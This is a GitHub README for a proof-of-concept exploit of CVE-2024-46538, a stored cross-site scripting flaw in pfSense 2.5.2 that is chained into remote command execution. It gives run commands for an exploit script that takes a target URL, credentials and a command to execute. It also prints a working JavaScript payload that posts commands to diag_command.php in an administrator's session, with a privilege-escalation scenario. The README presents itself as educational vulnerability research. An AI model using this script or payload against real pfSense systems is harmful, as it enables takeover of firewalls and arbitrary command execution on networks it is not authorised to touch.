










This post is a research article published by [EQSTLab](https://github.com/EQSTLab).


**Thanks to [physicszq](https://github.com/physicszq/web_issue/blob/main/pfsense/interfaces_groups_edit_file.md_xss.md), who discovered this vulnerability.**


# CVE-2024-46538
★ CVE-2024-46538 PfSense Stored XSS lead to RCE PoC ★


## Description
CVE-2024-46538 : PfSense Stored XSS Vulnerability


description: A cross-site scripting (XSS) vulnerability in pfsense v2.5.2 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the $pconfig variable at interfaces_groups_edit.php.


## Lab Setup
Download vulnerable version([v2.5.2](https://github.com/CloudSentralDotNet/iso_pfsense)):


### Setup Virtual Machine
**Running on the Oracle Virtual Box**


**1. Create Virtual Machine**


**2. Setup Adapter 1,2 like:**



**3. Setup Boot order like:**



**4. Follow directions like:**









## How to use
### Git clone
```sh
git clone https://github.com/EQSTLab/CVE-2024-46538.git
cd CVE-2024-46538
```


### Install packages
```sh
pip install -r requirements.txt
```


### Command
```sh
# Store malicious JavaScript payload (No custom js server)
python3 CVE-2024-46538.py -i <USER_ID> -p <USER_PASSWORD> -u <URL_TO_EXPLOIT> -c <CMD_TO_EXECUTE>
# Store malicious JavaScript payload (Use custom js server)
python3 CVE-2024-46538.py -j <CUSTOM_JAVASCRIPT_SERVER> -i <USER_ID> -p <USER_PASSWORD> -u <URL_TO_EXPLOIT> -c <CMD_TO_EXECUTE>
```


### Output
**CVE-2024-46538.py**



## Analysis
**/src/usr/local/www/interfaces_groups_edit.php**
```
if (isset($_POST['members'])) {
		$members = implode(" ", $_POST['members']);
	} else {
		$members = "";
	}
...
		// Create new group
		} else {
			$ifgroupentry['ifname'] = $_POST['ifname'];
			$a_ifgroups[] = $ifgroupentry;
		}

		write_config("Interface Group added");
		interface_group_setup($ifgroupentry);

		header("Location: interfaces_groups.php");
		exit;
	} else {
		$pconfig['descr'] = $_POST['descr'];
		$pconfig['members'] = $members;
	}
}
```

Lack of filtering in the $pconfig variable in interfaces_groups_edit.php leads to a cross-site scripting (XSS) vulnerability. The cross-site scripting (XSS) vulnerability allows attackers to leverage the diag_command.php endpoint to execute arbitrary commands against an administrator.
For example, Following JavaScript Can lead to RCE.


**mal.js**
```
var formData = new FormData();formData.append("__csrf_magic", csrfMagicToken);formData.append("txtCommand", "id");formData.append("txtRecallBuffer", "id");formData.append("submit", "EXEC");formData.append("dlPath", "");formData.append("ulfile", new Blob(), "");formData.append("txtPHPCommand", "");fetch("https://192.168.102.61/diag_command.php", {method: "POST",body: formData}).then(response => response.text()).then(data => {const parser = new DOMParser();const doc = parser.parseFromString(data, "text/html");const contentDiv = doc.querySelector("div.content");if (contentDiv) {alert(contentDiv.textContent);} else {alert("No content found");}})
```


## Scenario
User (Has Privilege: WebCfg - Interfaces: Groups: Edit) --(Store Malicious JavaScript Code)--> Admin (Has Privilege to execute code) --(Read interfaces_groups.php)--> JavaScript Code Execute --> RCE


## Disclaimer
This repository is not intended to be XSS exploit to CVE-2024-46538. The purpose of this project is to help people learn about this vulnerability, and perhaps test their own applications.


## References
https://github.com/physicszq/web_issue/blob/main/pfsense/interfaces_groups_edit_file.md_xss.md
